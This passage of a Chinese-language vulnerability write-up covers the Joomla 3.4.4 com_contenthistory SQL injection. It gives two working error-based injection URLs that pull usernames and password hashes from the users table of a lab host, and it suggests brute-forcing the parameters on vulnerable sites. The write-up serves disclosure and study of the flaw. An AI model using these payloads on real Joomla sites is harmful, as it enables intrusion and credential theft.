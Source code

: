 这里经过多个漏洞站点的测试可以简单的使用 `item_id=1&type_id=1`，当然了为了准确性和有效性，可以通过爆破的方式来得到这两个参数的有效值，然后再进行注入操作。

(Tips：Joomla 中构造的 SQL 语句中 `#_` 最终会在执行前被替换为表前缀)

下面是获取用户名/密码哈希的漏洞演示过程：

    http://http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[ordering]&list[select]=(select 1 from (select count(*),concat((select username from %23__users limit 0,1),floor(rand(0)*2)) from information_schema.tables group by 2)x)
    
![](/images/articles/2015-10-23-joomla_cms_contenthistory_sql_injection_vulnerability/2.png)

    http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[ordering]&list[select]=(select 1 from (select count(*),concat((select password from %23__users limit 0,1),floor(rand(0)*2)) from information_schema.tables group by 2)x)
    
![](/images/articles/2015-10-23-joomla_cms_contenthistory_sql_injection_vulnerability/3.png)
